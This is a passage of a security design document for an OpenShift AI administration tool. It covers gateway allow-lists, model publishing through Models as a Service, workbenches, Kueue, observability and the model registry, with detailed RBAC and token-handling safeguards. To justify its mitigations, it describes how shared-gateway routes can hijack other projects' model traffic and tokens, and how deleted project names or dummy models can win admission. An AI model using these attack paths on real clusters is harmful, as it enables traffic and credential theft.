- *What is on the list.* `openshift-ingress` (the gateway's own namespace, where only cluster-admins create routes; an empty `In` is invalid), and each project a cluster-admin sets a model up in through this tool, added before the model is created. **Allow <project>** adds a project whose model was deployed elsewhere (the dashboard): the Models tab and the Overview name such a model, since its route is rejected (`NotAllowedByListeners`) and it never becomes ready. Only a cluster-admin can use either (the tool's mutating API is for cluster-admins). Since 4.0.0 the tool takes a project it added off the list once no model there routes through the gateway any more ([The list of projects](#the-list-of-projects-400), below); a name it did not add stays. A cluster-admin removes a name by editing the Gateway; a model in that project then stops attaching.
- *Names that outlive their project.* A deleted project that the tool did not record adding stays on the list. Anyone allowed to create projects can then create one of that name and attach routes. Remove the names of deleted projects from the Gateway's list on shared clusters.
- *Writes keep others' entries.* The tool reads the Gateway and writes the list with that read's `resourceVersion` (server-side apply), keeping every name already listed, whoever added it. When someone changed the Gateway in between, the write is refused and the tool reads it again (up to three times).
- *Gateways from earlier versions.* A gateway an earlier build made (`from: All`, or the namespace label a pre-release build used) gets the list at its next change (a model setup or Allow), with the projects of this tool's own models (UID in its record) that route through it: models whose `spec.router.gateway` is this gateway or the default one, and models whose address is on one of its hostnames (a route inherited from a preset). Until the final review of 3.0.0 the conversion listed every project with any LLMInferenceService on the gateway, the tool's or anyone's, so an editor could get their project listed with a dummy model and then attach takeover routes. Now models of other projects are not admitted after the conversion; the status, the Models tab and the Overview name them as Allow candidates, and the Models tab says plainly that allowing a project lets its editors attach routes to the shared gateway. Routes made by hand in other projects (the takeover routes included) are detached. It is refused, with nothing written, when the models or the tool's record cannot be read (`TestInferenceGateway_ConvertsAPreReleaseGateway`).
- *Someone else's gateway* (RHOAI's chart, an admin) is never changed. The Models tab says which projects it allows; for a project it does not allow, it gives RHOAI's step: a cluster admin adds the project to the values array of the listeners' `allowedRoutes`.
- *MaaS's gateway* has the same exposure among published projects: [Models as a Service](#models-as-a-service).

#### The list of projects (4.0.0)

Every name on the tool's gateway's list lets that project's editors attach routes to the shared gateway (an `Exact` path to another project's model takes its calls and tokens), and a name stays admitted after its project is deleted, so a new project of that name is admitted at once. Live, after a v3.0.0 E2E, `e2e-v300` stayed admitted after its model was deleted. Now the tool records each project it adds (snapshot ConfigMap key `inferenceGatewayProjects`, written before the Gateway), and when the last model routed through the gateway from a recorded project is deleted (Models tab or Clean up) the project goes off the list: a server-side dry run, then a write guarded by the read `resourceVersion` (planned again from a fresh read if someone edits the list meanwhile). It fails closed: when the models cannot be listed, KServe's configuration or the Gateway cannot be read, or any LLMInferenceService in the project (anyone's) still routes through the gateway, the name stays and the result says why. Every plan of the write runs that check, so a write planned again after a conflict cannot take off a project a model started to use meanwhile; **Remove** runs every check and the dry run before its write (`TestModelsDisallow_FailsClosed`, `TestModelsTeardown_ReleaseChecksAgainAfterAConflict`). A recorded project whose namespace was deleted goes off the list, with the same checks, after the next Models change that succeeds and in Clean up's Models part; a namespace that cannot be read is not taken for deleted (`TestModels_ReleasesDeletedRecordedProjects`). A name the tool did not add is never removed on its own. The Models tab names the listed projects no model uses and those that no longer exist; **Remove from the list** takes one off after the user confirms it (names added before the record existed, such as `e2e-v300`, are not recorded), with the same checks, never the gateway's own namespace and never on a gateway this tool did not create (`TestModelsTeardown_TakesARecordedProjectOffTheGateway`, `TestModelsTeardown_KeepsAProjectStillUsedOrNotAdded`, `TestModelsTeardown_ProjectStaysWhenModelsCannotBeListed`, `TestInferenceGateway_UnusedAndGoneProjectsAndDisallow`). Routes made by hand in such a project are not visible to the tool (no `list` on HTTPRoutes); the confirmation says so. MaaS's gateway needs nothing of this: its list is computed from the published models, and unpublishing a project's last model takes it off.

### Playground

The Environment page's Playground tab sets up and removes the RHOAI dashboard's Gen AI playground in a project by calling the installed dashboard's own gen-ai API on the dashboard's address (`https://rh-ai.<apps domain>`), exactly as a click in the dashboard's Gen AI studio does. The dashboard then writes whatever this RHOAI release's playground is made of; no playground configuration is copied into this tool. Which calls carry which token (Set up, delete and Clean up with the user's own; the status with the ServiceAccount's until 5.0.0, never reaching MaaS, and with the user's own since): [The ServiceAccount token and Models as a Service](#the-serviceaccount-token-and-models-as-a-service-301). `POST /api/resources/playground/stream` is a mutation behind the cluster-admin gate, the lock, the rate limit and the activity log; the status route (`GET /api/resources/playground`) is a read for any signed-in user, of their own projects with their own token (5.0.0); the gitops profile refuses both.

*Data flow of the tokens.* The host is the address the cluster's own Dashboard component reports (`status.url`, else Route `rhods-dashboard`), https only, verified against the system roots and the pod's CA bundles (the same client as the MLflow samples, `samplesTLSConfig`). A token is sent only in the `Authorization` header; it is never logged, put in an error, a step message, a response or the activity log (the playground tests check every message for it). The client (shared with the MLflow samples) never follows a redirect: Go's client would resend the `Authorization` header on a redirect to the same host, also to plain `http`, so a 3xx answer is reported as an error that names where it pointed and is not followed (`refuseRedirect`, `TestSamplesHTTPClient_DoesNotFollowRedirects`; since 3.0.0). The data-science gateway in front of the dashboard validates the token with a TokenReview (GatewayConfig `enableK8sTokenValidation`), and the dashboard's API then runs one access review (`list ogxservers` in the project) and acts with the token. The pgvector database and the copy of the router CA are made by the dashboard's own ServiceAccount.

*Which playground is the tool's.* After its install the tool records the OGXServer's UID and creation time (snapshot ConfigMap, data key `playgrounds`) and compares them before every delete: a playground deleted and made again in Gen AI studio, or in a recreated project, has another UID and is not this tool's.

*The project's trusted CA bundle.* The dashboard's install adds the label `ogx.io/watch=true` to the project's `odh-trusted-ca-bundle`, which the OGX operator's cache needs. The RHOAI operator owns that ConfigMap (DSCInitialization trusted CA bundle) and, live on RHOAI 3.6 (2026-11-16), restored a tampered copy's data within about 1 s; that revert holds only while the DSCInitialization's `spec.trustedCABundle.managementState` is `Managed`.

### Workbench

The Workbench tab creates a Notebook `nightly-workbench` and a PersistentVolumeClaim `nightly-workbench-storage` in a data science project as the dashboard's Create workbench does. Every request carries the signed-in cluster-admin's own token: the changes (`POST /api/resources/workbench/stream`, behind the cluster-admin gate, the lock, the rate limit and the activity log) and the admin-only status (`GET /api/resources/workbench`). The ServiceAccount gains nothing; it reads only the DataScienceCluster, the dashboard's address and the tool's own record. The gitops profile refuses both routes.

*User-token rights it uses (5.0.0, owner-approved).* `create` notebooks and persistentvolumeclaims (unnamed, the API server names them on create); `get`, `patch`, `delete` notebooks named `nightly-workbench`; `get`, `delete` persistentvolumeclaims named `nightly-workbench-storage`; `list` imagestreams (applications namespace), storageclasses, hardwareprofiles, LocalQueues and the workbench's pods; `get` Secret `ds-pipeline-config` and the tool's Connection `rhoai-nightly-updater-s3` (metadata only), the project namespace and OdhDashboardConfig `odh-dashboard-config`. The reads are `rbacUserTokenReads` in `pkg/cluster/rbac_coverage_test.go`; the golden lists the writes.

*Ownership.* The tool records the UIDs the API server gave the Notebook and the PVC (snapshot ConfigMap, key `workbenches`). Start, Stop and Delete act only on a Notebook with the tool label and the recorded UID (Start and Stop patch with a `test` of `/metadata/uid`, Delete with a UID precondition); the PVC is deleted only when the user ticks it and it carries the label and the recorded UID. A PVC of that name without the record is never adopted.

*Platform side effects of the setup's dry run.* The Notebook's server-side dry run goes through odh-notebook-controller's mutating webhook, which, although it declares `sideEffects: None`, creates in the project, under its own identity, the ConfigMaps `workbench-trusted-ca-bundle` and `pipeline-runtime-images` and Secret `ds-pipeline-config` when they are missing, as it does for the dashboard's own dry run and for a real create. A setup refused after the dry run therefore says "No workbench or storage was created", not that nothing changed.

*Storage that something else uses.* The storage is deleted only when no other Notebook (other than the recorded one) and no pod of the project mounts `nightly-workbench-storage` (one `list notebooks` and one `list pods` in the project, with the user's token, right before every delete: Delete with storage, Delete storage, and both Clean up parts); otherwise the deletion is refused and names them, and the status shows them first.

*Platform side effects of create (not the tool's writes).* The workbenches-operator's connection webhook runs a SubjectAccessReview `get secrets/rhoai-nightly-updater-s3` as the user and adds the Connection's `envFrom` (the tool writes only the annotation, so the workbench holds the project's pipeline key, never the S3 admin key). odh-notebook-controller, under its own identity, injects kube-rbac-proxy and creates ServiceAccount `nightly-workbench`, a ClusterRoleBinding to `system:auth-delegator`, an HTTPRoute in the gateway's namespace, a ReferenceGrant, NetworkPolicies and RoleBindings (Elyra, MLflow when linked); its finalizers remove them on delete.

### Distributed workloads (Kueue)

The Distributed workloads tab installs the Red Hat build of Kueue through its prerequisites (as for cert-manager: a Namespace, an OperatorGroup when it has none, a Subscription; the operators stay after Clean up), sets the DataScienceCluster's `kueue` to `Unmanaged` with its own field manager (Clean up turns it back only while the tool still owns the field and no ClusterQueue or LocalQueue is left), and creates queues and samples in one project. Every request carries the signed-in cluster-admin's own token: the changes (`POST /api/resources/kueue/stream`, behind the cluster-admin gate, the lock, the rate limit and the activity log) and the admin-only status (`GET /api/resources/kueue`, which also lists every ClusterQueue and LocalQueue on the cluster: the reads Clean up's check of `kueue` makes, so that the tab offers **Turn back** only when nothing uses it; it turns `kueue` back through Clean up's own request). The ServiceAccount gains nothing: it reads only the DataScienceCluster, the dashboard's address and the tool's record; the prerequisites' status reads only what it read before (CSVs, Subscriptions, PackageManifests, API discovery, and the CRD list, by name, to tell a Kueue installed outside OLM by its CRD's OLM labels). A read that fails, discovery included, refuses (only a 404 means absent).

*User-token rights it uses (5.0.0, owner-approved).* `create`, `delete` resourceflavors and clusterqueues (cluster-scoped, names `nightly-kueue-cpu` and `nightly-kueue`), localqueues (`nightly-kueue` in the project), rayclusters and rayjobs (the samples) and hardwareprofiles (`nightly-kueue-cpu`, applications namespace, opt-in only); `patch` the project namespace (the label) and OdhDashboardConfig `odh-dashboard-config` (opt-in only); `get`/`list` of those kinds, workloads, the Kueue CR `cluster` and the namespace. The reads are `rbacUserTokenReads` in `pkg/cluster/rbac_coverage_test.go`; the golden lists the writes.

*Ownership.* Every object carries the tool label, and its UID is recorded (snapshot ConfigMap, key `kueue`); deletes carry a UID precondition, and nothing of another UID is deleted. Each queue goes only while nothing else uses it (another LocalQueue, ClusterQueue or Workload), checked with a list that refuses when it fails. The project label is added with a JSON patch that tests the namespace's UID and removed only when the tool added it, the namespace is the recorded one and no Workload is left. The opt-in records `disableKueue`'s value before; it is restored only while the tool's field manager still owns the field at `false`, and the profile is deleted only with its recorded UID and resourceVersion (unchanged since).

*Effects beyond the project.* The ClusterQueue admits only the chosen namespace (`namespaceSelector` on `kubernetes.io/metadata.name`) and does not preempt. The LocalQueue is never named `default`, so Kueue's defaulting does not queue the project's other workloads. The opt-in changes every new dashboard project (they get `kueue.openshift.io/managed=true`), which its confirmation says.

### Observability (usage logs and dashboards)

The Observability tab installs the Cluster Observability Operator, the Red Hat build of OpenTelemetry and the Loki Operator (after cert-manager) through the same prerequisites code as Kueue (a Namespace, an OperatorGroup when it has none, a Subscription; they stay after Clean up), makes a bucket and a SeaweedFS user on the tool's own S3 storage, writes one Secret in RHOAI's monitoring namespace, and adds two fields to the DSCInitialization's `spec.monitoring`. Every write carries the signed-in cluster-admin's own token (`POST /api/resources/observability/stream`, behind the cluster-admin gate, the lock, the rate limit and the activity log).

*New ServiceAccount rows (5.0.0; status only, list only, no write; owner-approved 2026-11-25, `persesdatasources` dropped).* Audited one by one:

| Row | Why | Narrowest scope | What a misuse could do |
|---|---|---|---|
| `loki.grafana.com` `lokistacks`: `list` | The Usage logs part says why the LokiStack is not Ready (its conditions) | Cluster-wide: the monitoring namespace is set when RHOAI is installed (the DSCInitialization's CEL rule keeps it immutable) but its name is the installer's choice, so the template cannot name it in a Role; the tool lists that one namespace | Read LokiStack specs: size, storage Secret name and schema, no credential |
| `perses.dev` `persesdashboards`: `list` | The Dashboards part lists those Perses has not taken yet (problem B) | Same | Read dashboard definitions (panels and queries, which name datasources but hold no address or credential) |
| `storage.k8s.io` `storageclasses`: `list` | Set up's check, shown before Set up on this tab and as MaaS Set up's "Also set up usage logs" default: which StorageClass is the cluster's default (the LokiStack's disks need one) | Cluster-scoped kind | Read StorageClass names, provisioners and parameters; no credential |

Nothing else is new for the ServiceAccount: `monitorings` (`services.platform.opendatahub.io`) are covered by the existing list rule on the module groups, the DSCInitialization, PVCs, pods and events by existing list rules, and the operators' status by the prerequisites' existing reads. The status reads no Secret and no OpenTelemetryCollector or Perses CR on purpose: a collector's configuration can hold exporter credentials, and the Monitoring CR's conditions say what they would. Problem A (the collector waiting for certificate Secrets that were never made) is told from pods and the kubelet's `FailedMount` events only.

*Not PersesDatasources (owner sign-off 2026-11-25).* A first draft also listed PersesDatasources, for problem B and to warn when MaaS points the usage datasources at maas-api. The owner approved the rows above with that one dropped: a datasource's author can put a proxy's headers, and a token in them, inline, and other teams make datasources in the same namespace. Problem B reads the PersesDashboards only. The maas-api warning is told from the existing `get` on Deployments instead: the `maas-api` Deployment of the MaaS namespace, whether its container `maas-api` has a variable named `LOKI_READ_ENDPOINT`. Only the variable names are decoded; the value (the Loki address) is never read into memory, logged or returned (`TestObservability_WarnsWhenMaaSAPIReadsLoki`). MaaS sets that variable while Secret `usage-logs-loki` holds a valid endpoint, and points the datasources at maas-api while the Secret exists (models-as-a-service rhoai-3.7-ea.1, maas-controller `pkg/platform/tenantreconcile/pipeline.go` L242-268 and `params.go` L1086-1088; `pkg/controller/maas/self_deployment_controller.go` L852-868), so a Secret without a valid endpoint key moves the datasources without a warning. `TestNothingReadsPersesDatasources` pins that no code path requests them and neither the template nor the GitOps profile grants them.

*User-token requests it uses (owner-approved in principle, 2026-11-25).* `create` Namespaces (`openshift-cluster-observability-operator`, `openshift-opentelemetry-operator`, `openshift-operators-redhat` when missing), OperatorGroups and Subscriptions in them; `list` StorageClasses (the default one); `get` (metadata only, except the LokiStack) LokiStack `data-science-usage-logs-lokistack`, OpenTelemetryCollectors `data-science-usage-logs` and `data-science-collector`, MonitoringStack `data-science-monitoringstack` (`monitoring.rhobs`) and Perses `data-science-perses` (Clean up's wait until the stack its fields deployed is gone before the storage goes); `list` cert-manager Certificates of the monitoring namespace and `get` (metadata) the OpenTelemetryCollectors, TargetAllocators and MonitoringStacks that own them (which Secrets the stack's certificates are); `get`, `create`, server-side `apply`, `delete` Secret `rhoai-nightly-updater-usage-logs` in the monitoring namespace (only one with the tool's label and field manager; delete with a UID precondition); `patch` the DSCInitialization (merge patch, field manager `rhoai-nightly-updater-monitoring`, `fieldValidation=Strict`, resourceVersion precondition; first only its annotation, an intent record with the bucket and user names this setup drew, written before any of them is made, so Clean up sees and finds a setup that stops there; then the absent fields; Clean up only puts back what the annotation records and refuses when the fields changed; the annotation holds no user name: the activity log records who acted); `list` PVCs and Secrets of the monitoring namespace as metadata only (`PartialObjectMetadataList`: no Secret data reaches the tool); `delete` the PVCs and Secrets the annotation records, each with a UID precondition, only when it still has the recorded UID, no owner, was created after the record and is the stack's (a PVC of the MonitoringStack's Prometheus, Perses or the usage-logs LokiStack by its StatefulSet claim name; a Secret named by a cert-manager Certificate whose owner chain, each owner read and its UID checked, ends at the Monitoring CR, with that Certificate's UID recorded). `prometheus-web-tls-ca` has no owner that ties it to the change: it is listed with the command, not deleted. Only the run that added the fields records them; anything else in the namespace is never recorded, and disks of the stack it did not record are listed with the command, not deleted. The golden lists them.

*SeaweedFS (HTTP to the tool's own storage, no RBAC).* With the storage's admin key, as for pipeline servers. Ownership is by name: each setup draws `rhoai-usage-logs-<6 hex>` and `rnu-usage-logs-<the same>` (crypto/rand) and records them on the DSCInitialization before it makes anything. It creates the bucket and the IAM user (`CreateUser`, `PutUserPolicy` with List/Get/Put/DeleteObject on that bucket only, `TagUser` `rnu-purpose=usage-logs` as a label, `CreateAccessKey`); a bucket or user of a freshly drawn name that exists is refused, never adopted: what this call made goes again and the names leave the record. A retry of the same setup uses the recorded names. Set up checks the new key writes and reads its bucket and is refused on bucket `pipelines`. The user's name starts with `rnu-` but not `rnu-dspa-`, so the leftover-key sweep and the storage teardown's sweep of pipeline users never delete it. Clean up deletes exactly the recorded user and bucket, each on its own (one that is gone already is fine; the bucket emptied in `DeleteObjects` batches of at most 1000 keys, whose answer must be a `DeleteResult` without failures); a record without names is refused with the steps to do by hand. As for pipeline servers, Loki and the tool reach SeaweedFS over plain HTTP inside the cluster (`http://seaweedfs-s3.seaweedfs.svc:8333`, the Secret's `insecure: "true"`): whoever can watch pod traffic on the cluster network can read the usage logs in transit, and, with MaaS's `captureUser` on, the user names in them. The S3 storage cannot be deleted while the DSCInitialization's usage logs name the tool's Secret.

*Effects beyond the tool's objects.* RHOAI's operator then runs the monitoring stack for the whole cluster (the platform's metrics and MaaS's usage logs); every MaaS call is logged with its model, subscription, organisation and, only when MaaS's `captureUser` is on (not set by this tab), the user ID. The usage logs are readable by whoever may read the LokiStack's `application` tenant: cluster-admins through the dashboard's admin view.

### Models as a Service

The MaaS tab sets up the cluster's MaaS platform the way the MaaS install docs do (`opendatahub-io/models-as-a-service` `docs/content/install`, and the scripts they run: `setup-gateway.sh` in its default loadbalancer mode, `setup-database.sh`, `deploy.sh`), removes what it set up, and publishes this tool's own model. Everything it writes carries the tool label, is written with the tool's field manager, and is deleted with a UID precondition. Objects of the same names that someone else made are used as they are and not changed or deleted, as far as that label and field manager tell: both can be imitated by whoever may create such an object in that namespace (the platform's objects live in namespaces only cluster-admins and RHOAI's operator write; a MaaSModelRef lives in the model's project). The model it publishes must be one the tool recorded by UID ([Which models are the tool's](#which-models-are-the-tools)), and MaaS shows the catalog's display name and description, not the object's. Kuadrant (Connectivity Link), Authorino, the CloudNativePG operator and every object RHOAI's operator makes (`Config/default`, the AITenant, MaasTenantConfig, maas-api, the gateway's AuthPolicy, the generated namespaces) are only read.

*The database password.* The connection URL is built in memory from the CloudNativePG application Secret `maas-db-app` (read by name, only its `username` and `password` keys are used) and written only into Secret `maas-db-config`. It is never logged, put in an error, returned by the API, or kept in status (a unit test checks the operation's output for it). No Secret is listed or watched.

*Namespaces a user made first (final review of 3.0.0).* `maas-default-gateway` always admits routes from `models-as-a-service` and the AI gateway's infrastructure namespace (`redhat-ai-gateway-infra`), and publish writes the tool's MaaSSubscription and MaaSAuthPolicy into `models-as-a-service`. maas-controller adopts a namespace of either name that already exists (models-as-a-service rhoai-3.6 `maas-controller/cmd/manager/main.go`, `ensureManagedNamespaceWithClient`: "managed namespace already exists", then it only patches the labels it needs), so any user who may request projects could make one first and be its admin. Setup and publish now read both namespaces first and refuse, with nothing written, when one carries `openshift.io/requester` (every ProjectRequest sets it; RHOAI's operators do not), or when one cannot be read (fail closed); a namespace that does not exist yet is fine, RHOAI makes it. The message names the requester and says a cluster-admin checks the namespace and deletes it if it is not RHOAI's (`TestMaaSSetup_RefusesANamespaceAUserRequested`). It uses the existing `get` on namespaces; no RBAC changed.

*Authorino TLS.* Until the one-click setup (below) the tool only checked the docs' Authorino TLS step (`setup-authorino-tls.sh`) and showed its commands; it now applies it, and still shows the commands under "Do it from the CLI instead". The certificate Secret's name in those commands is read from the Authorino CR (`spec.listener.tls.certSecretRef.name`), which whoever may edit that CR chooses, and a cluster-admin pastes the commands into a shell: since 3.0.0 a name that is not a Kubernetes object name (DNS-1123 subdomain, at most 253 characters) gets no commands and the status says why, and every substitution (the namespace too, and the whole JSON patch) is shell-quoted (`authorinoTLSCommands`, `TestMaaSStatus_AuthorinoTLSRefusesAnInvalidSecretName`). The docs' namespace label for model projects (`maas.opendatahub.io/gateway-access=true`) would need `patch` on every namespace (which could also relax a namespace's pod security labels); the tool instead lists the published projects in its own gateway's `allowedRoutes`, the script's documented `ALLOWED_ROUTE_NAMESPACES` form.

**Setup (one click, 3.0.0).** The MaaS tab does every step of the MaaS install docs itself (the objects and their order: [CLUSTER_CHANGES §8](docs/CLUSTER_CHANGES.md#maas-models-as-a-service-cluster-and-this-tools-published-models)), after one confirmation that lists every change, with each write dry-run on the server before the first one, and reads that fail stopping it before any write (`TestMaaS_RefusesWhenAReadFails`). The choices that matter for security:

- The Connectivity Link Subscription it creates sets `RATELIMIT_CHECK_SERVICE_FAILURE_MODE` and `RATELIMIT_REPORT_SERVICE_FAILURE_MODE` to `deny`, the docs' setting, so rate limits fail closed when Limitador is unavailable. Set up never changes an adopted Subscription; **Deny traffic when rate limiting fails** adds the two variables to one that lacks them.
- CloudNativePG is not installed in `openshift-operators`, where, the MaaS platform setup warns, any operator's InstallPlan can pull an OSSM upgrade that breaks the gateway.
- What the tool installs or creates is recorded in its snapshot ConfigMap (`maas` key: `shared`, `infraNamespace`, `aigatewayChanged`). Remove never deletes the shared pieces (Connectivity Link, Kuadrant, Authorino TLS, CloudNativePG): RHOAI's inference gateway authentication (AuthPolicy `openshift-ai-inference-authn`) is Kuadrant's. It deletes the AI gateway's infrastructure namespace only when this tool created it (recorded, label and field manager), MaaS is off, and its pods, Deployments, PersistentVolumeClaims and `maas-db-config` show nothing else in it, and only under the two names the docs' `derive_infra_namespace` gives (`redhat-ai-gateway-infra`, `odh-ai-gateway-infra`), never the applications namespace.
- Where maas-api runs and `maas-db-config` goes is the default tenant's `status.infraNamespace` (MaaSTenantConfig `models-as-a-service/default-tenant`). The name is derived from the applications namespace (as `setup-database.sh`'s `derive_infra_namespace` does) only when that tenant does not exist (404) or reports no namespace yet. Any other failure to read it (forbidden, a server error, a body that does not parse) is not replaced by a derived name (4.0.0; earlier builds derived one after any failure): Set up and Publish stop before their first write, Unpublish and the prune job leave the MaaS gateway as it is and say why, and the status shows maas-api's state as unknown with the reason (`TestMaaSSetup_RefusesWhenTheTenantCannotBeRead`).
- **Remove the old tier policies** deletes only `gateway-auth-policy` and `gateway-tier-rate-limits`, the two the MaaS upgrade guide names, by UID after a dry run; any other policy maas-controller does not manage is only reported, with its `oc delete`.

**Writes to objects that are not only the tool's.** The DataScienceCluster's `aigateway` fields are written under the tool's own field manager (`rhoai-nightly-updater-maas-dsc`) and their earlier values recorded; Remove restores a value only while that field manager still owns the field (`batchGateway` and `aiGrid` are never touched). The published model's `spec.router.gateway.refs` (an atomic list) are written whole, with the read `resourceVersion`, so a model changed in between is refused as a conflict; Publish records the refs it read and writes `maas-default-gateway` alone (maas-controller's rate-limit policy on the model's route fails every call on any other gateway), and Unpublish writes the recorded refs back and refuses, before changing anything, when someone added a gateway to the model while it was published, so no ref of theirs is dropped. When maas-controller is gone (MaaS turned off), the tool removes maas-controller's finalizer `maas.opendatahub.io/model-cleanup` from its own terminating MaaSModelRef, which nothing else would (the policies maas-controller generated for the model may then be left; the log names the command that lists them). A MaaSModelRef counts as the tool's when it carries the tool's label and a write by the tool's field manager, which someone who may create MaaSModelRefs in that project can imitate: the tool then overwrites or deletes that look-alike reference of their own project, nothing more, because a reference publishes only a model the tool recorded. The embedding model is never published.

**Who may call the published models.** Publish, Change limit and Change who can use them edit only this tool's MaaSSubscription and MaaSAuthPolicy. Every write of the tool's MaaSSubscription sets `spec.priority: 0`, the CRD's default and the lowest value maas-api honours (it reads a negative priority as 0: models-as-a-service `maas-api/internal/subscription/selector.go`). A key minted without naming a subscription goes to the caller's subscription with the highest priority; among equal priorities, to the one whose largest single token limit on any of its models is larger (the time window is not compared; Unlimited counts as largest), then the first by name (api-key-authentication.md, "Subscription Binding and Priority"; `selector.go` `sortSubscriptionsByPriority`). So the tool's `system:authenticated` subscription never outranks another one, but on a tie at priority 0 (also with one created without a priority) MaaS decides, and the tool's can win; the MaaS tab names such subscriptions, MaaS marks subscriptions sharing a priority `SpecPriorityDuplicate` (reason `SharedPriority`, status only, expected), and naming the subscription when minting avoids the choice. A key keeps the subscription it was bound to when minted. Earlier versions wrote 10 while the tool's subscription was alone, so subscriptions created later at 0 lost to it: the MaaS tab shows that priority with **Set to the lowest priority (0)** (a merge patch of `spec.priority` alone, with the user's token, under the cluster lock, only on the tool's own subscription; nothing else runs first, not even the removal of gone publications); keys already bound to it must be revoked and minted again; with other subscriptions and Connectivity Link below 1.5, and on Connectivity Link 1.4.0 (silent gateway authentication bypass, prerequisites.md), Publish refuses. Publish also refuses a model whose spec no longer holds what the tool set ([Which models are the tool's](#which-models-are-the-tools)). A `maas-default-gateway` someone else made that admits every namespace (`from: All`) is not published through; the tab shows the patch to the docs' namespace list.

*Group names typed in the Publish dialog.* `GET /api/resources/maas/groups?name=...` (at most 20 names) says which have no OpenShift Group, with the existing `get` on a Group by name; it answers only a cluster-admin (`withAdminRead`), who may read groups anyway, so it reveals nothing a caller could not read. Names are matched exactly by MaaS (OIDC names such as `/admins` included); one that cannot be an OpenShift Group's is not looked up.

**Published projects share the MaaS gateway.** The MaaS gateway `maas-default-gateway` must admit the published models' projects (this tool lists them by name in its `allowedRoutes`, `kubernetes.io/metadata.name In [...]`; the docs' form is the `maas.opendatahub.io/gateway-access` label). So an editor of a published project can still attach a route with another published model's exact path on `maas.<apps domain>`, and receive calls (with API keys or tokens) meant for it, as on the inference gateway above. This is the MaaS design's, and is documented here, not changed: publish models only from projects whose editors you trust with the other published models' traffic. The route to `maas-api` itself is the same exposure for whoever creates an API key ([Which token is used where](#which-token-is-used-where)).

**Published projects that are gone (3.0.1).** A project deleted while its model was published stayed on this list, and anyone allowed to create projects could recreate the name and attach routes. Publications whose project no longer exists or is being deleted, or whose model is absent or not the one whose UID the tool recorded, are now dropped (`pkg/cluster/internal/serving/maas_prune.go`): at the start of every MaaS, Models and Clean up operation (with the user's token), and in the background at start and every 5 minutes (`pkg/api/maas_prune_job.go`, with the ServiceAccount: [The MaaS prune job](#the-maas-prune-job-400)), as a cluster operation of its own under the local lock and the cross-pod lease, skipped while another operation or pod holds them or the lease cannot be written, never while the server drains, and not in the gitops profile; it writes an activity entry only when it changed something. Three independent steps: the tool's MaaSModelRef of a gone publication whose project still exists (a remade model) is deleted by UID, the tool's access policy and subscription stop listing them, and the tool's gateway stops admitting their projects; one that fails does not keep the others from narrowing access, and the record forgets the publications only when all succeeded, so the next run retries. A project or model that cannot be read keeps the publication (fail closed); when the models record cannot be read, a remade model cannot be told apart, and the MaaS tab says so. The gateway part names gone publications until they are dropped. A gateway someone else made is not changed; the tab names the projects its owner removes. The inference gateway's list is pruned separately ([The inference gateway](#the-inference-gateway)).

**The database (4.0.0).** Set up asks where MaaS keeps its API keys: the user's PostgreSQL (only Secret `maas-db-config` is written, with the URL the user enters), the MaaS docs' development database, or a CloudNativePG cluster (earlier builds' only option, now an explicit opt-in); the objects of each: [CLUSTER_CHANGES §8](docs/CLUSTER_CHANGES.md#maas-models-as-a-service-cluster-and-this-tools-published-models). A `maas-db-config` this tool did not write is used as it is and never changed or deleted. Remove and Change database delete only objects with this tool's label and field manager, by UID; the user's database has no object here. The development database's Secret `postgres-creds` is never read or changed: the tool records its UID when it creates it and deletes only that object (with no record it is kept and the log says why); one of that name the tool did not record is refused as someone else's.

*The connection URL.* It holds a password. It is checked (scheme `postgresql://` or `postgres://`, host, user, database, port, length, no spaces or `#`) without quoting it, written only into `maas-db-config` (dry-run first), and never logged, recorded (activity, snapshot ConfigMap), returned by the API or shown in the UI. An API server's refusal can quote the object it refuses, so every message of the database's writes (dry runs, creates, applies; Set up and Change database) is redacted of every form of the URL and of the development password: as sent (base64), as typed, decoded, percent-encoded each way a URL holds it, and JSON-escaped, however short (`maasDBPlan.redact`, which calls `redactDBSecrets`). `TestMaaSDatabase_RefusalsQuotingTheSecretAreRedacted` makes the test API server refuse each of those writes with a message that quotes the request body, and checks the response, the steps, the status, every other object and the log for every form; `TestMaaSDatabase_ExternalNeverShowsTheURLAndRemoveKeepsTheDatabase` checks a successful run. The request body limit of `POST /api/resources/maas/stream` is 32 KiB and the body is not logged.

### Model registry

The Model registry tab creates ModelRegistry `nightly-registry` exactly as the dashboard's Create model registry dialog does with the default database (odh-dashboard rhoai-3.6 `frontend/src/pages/modelRegistrySettings/CreateModal.tsx`), plus the tool's label: with the signed-in user's own token (the dashboard writes it with its own ServiceAccount, behind its admin check), dry-run first with `fieldValidation=Strict`, so a CRD without the default database refuses before anything is written. No Secret is made: the operator generates the database credentials. It grants no access: the operator's own Role `registry-user-nightly-registry` (and Group `nightly-registry-users`, where the User API exists) are RHOAI's; the tool creates no RoleBinding. Which registry is the tool's: its UID recorded in the snapshot ConfigMap (data key `modelRegistries`, field manager `rhoai-nightly-updater-model-registries`) and the tool's label; delete is by that UID (precondition) only, and one of that name without both is refused (`TestModelRegistry_ForeignRegistryIsKept`).

*The sample model and the token.* The sample is registered through the registry's REST API (`/api/model_registry/v1alpha3`) at `https://<routing.opendatahub.io/external-address-rest>`, the address the operator writes on the registry's Service and the dashboard's BFF calls with the user's token. Anyone who may edit a Service in the registries namespace could point that annotation anywhere, so the token is sent only when all of these hold (`trustedAddress`, `TestModelRegistry_TokenGoesOnlyToTheClustersGateway`): the registry is the one this tool created; the Service has an owner reference to that registry's UID and the operator's labels (`app=nightly-registry`, `component=model-registry`); the address is a plain https address whose host is exactly the host of the dashboard's address (the cluster's data-science gateway, which serves the dashboard and the registry), at path `/model-registry/nightly-registry`. Otherwise nothing is sent and the tab says why (`addressProblem`). Requests use the samples' client (system roots and the pod's CA bundles, no redirects followed). Without that annotation the sample is skipped. The registry's kube-rbac-proxy checks `get services/nightly-registry` for the token. The registry API has no delete; the sample goes with the registry.

| Request (user token only) | Why |
|---|---|
| `create modelregistries` in the registries namespace | the dry run and the create |
| `get modelregistries/nightly-registry` | setup, the wait for `Available`, teardown, the status |
| `delete modelregistries/nightly-registry` | Delete and Clean up, with the UID precondition |
| `get services/nightly-registry` | the gateway address and the status (the operator's Service) |
| `list modelregistries` in the registries namespace | Clean up only: whether any registry is left before the component is turned back off |

